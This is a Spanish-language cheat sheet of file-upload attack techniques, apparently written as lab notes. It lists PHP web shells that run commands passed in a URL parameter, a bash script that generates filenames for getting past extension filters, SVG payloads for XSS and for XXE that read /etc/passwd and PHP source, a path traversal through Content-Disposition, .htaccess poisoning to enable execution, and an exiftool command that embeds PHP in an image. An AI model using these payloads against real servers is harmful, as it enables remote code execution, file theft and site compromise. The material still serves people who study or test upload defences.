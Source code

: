 #### Shells php útiles:

        <?php system($_GET['cmd']); ?>
        <?php echo file_get_contents('/home/carlos/secret'); ?>



#### Generar bash con wordlists para bypassear whitelists:

        for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps' '.phtml' '.phar' '.php3' '.phtm'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
        done


#### Siempre agregar, previo al código malicioso un "tipo de archivo" en base a los magicnumbers:
"
GIFF8
<?php .... ?>

#### XSS:

Añadir código malicioso en la metadata de los archivos.
sgv example:
        <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
            <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
            <script type="text/javascript">alert(window.origin);</script>
        </svg>


#### XXE:

leer un archivo en el servidor
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

#### Ver código fuente de un archivo php:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
        <svg>&xxe;</svg>


### File upload wth path transversal:
Podemos encontrarnos con que en algunos casos logramos subir un archivo malicioso, pero al momento de ejecutarlo en 
el servidor, este está impedido de ejecutarse mostrandonos el texto plano (si lo escondimos en una foto podríamos
intentar ejecutarla y que nada pase).
Esto se debe a que algunos servidores limitan la ejecución de código en directorios puntuales.
Para esto podemos combinar el path transversal agregándolo en la cabecera Content-Disposition:

###### Content-Disposition: form-data; name="avatar"; filename="../exploit.php" (debemos seguir todos los procedimientos de evación de filtros de path transversal si es que el servidor tiene alguna validación).
Luego, con el mismo path transversal podemos llamarlo. (puede que al momento de llamarlo, si debimos encodear el path}
transversal en la subida, no debamos encodearlo en la ejecución).

#### Blacklist bypass:
Fuerza bruta de extensión:
Si nos encontramos un filtro de blacklist, podemos hacer fuerza bruta sobre la extención del archivo malicioso buscando una extención permitida.

#### .htaccess poisoning/spoofing:

Podemos encontrarnos que no hay una extensión permitida dentro de las shells que necesitamos o que, aunque hubiera alguna, no hubiera permisos de ejecución. 
Podemos subir un archivo .htaccess envenenado que nos permita la ejecucion:

##### 1)repetimos la subida cabiando los siguientes parámetros:
        filename= .htaccess
        content-type = text/plain
        payload= AddType application/x-httpd-php .l33t (con esto habilitamos la ejecución de archivos con la extensión l33t)

##### 2)Subimos nuevamente la shell con la extensión ".l33t" y ejecutamos.

recursión de extensiones:

Podemos también, si hay un filtro que busque por palabras puntuales y las elimine, sumar recursión a la extensión de
los archivos: shell.p.phphp

Polyglot php en una imagen:

exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php






